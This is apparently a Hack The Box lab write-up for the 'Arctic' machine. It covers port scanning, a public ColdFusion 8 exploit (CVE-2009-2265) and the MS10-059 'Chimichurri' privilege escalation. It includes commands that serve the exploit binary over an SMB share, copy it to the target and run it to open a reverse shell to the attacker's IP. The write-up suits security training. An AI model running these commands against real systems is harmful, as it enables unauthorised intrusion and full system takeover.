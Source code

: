# [Arctic](https://app.hackthebox.com/machines/arctic)

```bash
nmap -p- --min-rate 10000 10.10.10.11 -Pn 
```

![Alt text](img/image.png)

After knowing (135,8500,49154) ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p135,8500,49154 10.10.10.11 -Pn
```

![Alt text](img/image-1.png)

I see that on port (8500), our target runs 'Coldfusion' application whose version is 8

Let's search publicly known exploit for this version of Coldfusion. 

I find [this](https://github.com/0xConstant/CVE-2009-2265.git)

That is CVE-2009-2265 whose id on exploit-db is 50057.

After, I changed LHOST and LPORT of code, we can run and get result.

![Alt text](img/image-2.png)



user.txt

![Alt text](img/image-7.png)


After getting shell, I run `systeminfo` command to find exploit path for root user.

I see that it is vulnerable to [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri).


After I downloading this malicious executable, I open SMB share to upload into my target machine.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .  #means current directory
```

![Alt text](img/image-3.png)

```bash
copy \\10.10.16.8\share\Chimichurri.exe .
.\Chimichurri.exe 10.10.16.8 1338
```

![Alt text](img/image-4.png)


I got reverse shell from listener.

![Alt text](img/image-5.png)


root.txt

![Alt text](img/image-6.png)